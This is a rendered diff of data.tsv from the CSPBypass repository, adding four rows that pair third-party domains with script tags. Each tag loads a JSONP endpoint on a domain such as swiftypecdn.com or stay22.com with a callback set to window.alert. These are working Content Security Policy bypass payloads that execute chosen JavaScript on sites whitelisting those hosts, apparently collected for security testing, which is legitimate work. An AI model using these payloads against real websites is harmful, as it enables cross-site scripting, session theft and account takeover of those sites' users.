

Before and after one commit to y1024/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/data.tsv
+++ b/data.tsv
+row 197: na5.thunderhead.com | <script src="https://na5.thunderhead.com/one/rt/web/v1/ONE-P897OSQPQO-1516?callback=window.alert(window.origin)"></script>
+row 236: s.swiftypecdn.com | <script src="https://s.swiftypecdn.com/install/v2/config/N-DNg_K55_uKdDgRwnR-.json?callback=window.alert"></script>
+row 266: tb.de17a.com | <script src="https://tb.de17a.com/api/pageView?callback=window.alert(window.origin)"></script>
+row 343: www.stay22.com | <script src="https://www.stay22.com/ext/partner/settings?callback=window.alert"></script>
```
Also changed, not shown: 13 added rows elsewhere in this file.
